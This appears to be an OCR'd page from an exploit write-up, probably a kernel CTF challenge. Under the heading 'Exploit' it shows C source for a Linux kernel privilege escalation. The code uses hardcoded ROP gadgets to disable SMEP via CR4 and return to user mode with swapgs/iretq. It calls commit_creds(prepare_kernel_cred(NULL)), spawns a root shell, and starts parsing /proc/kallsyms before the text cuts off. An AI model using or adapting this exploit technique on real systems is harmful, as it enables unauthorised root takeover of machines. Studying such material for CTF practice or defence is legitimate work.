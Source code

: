### Exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

int main(void)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    //get the addr
    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
```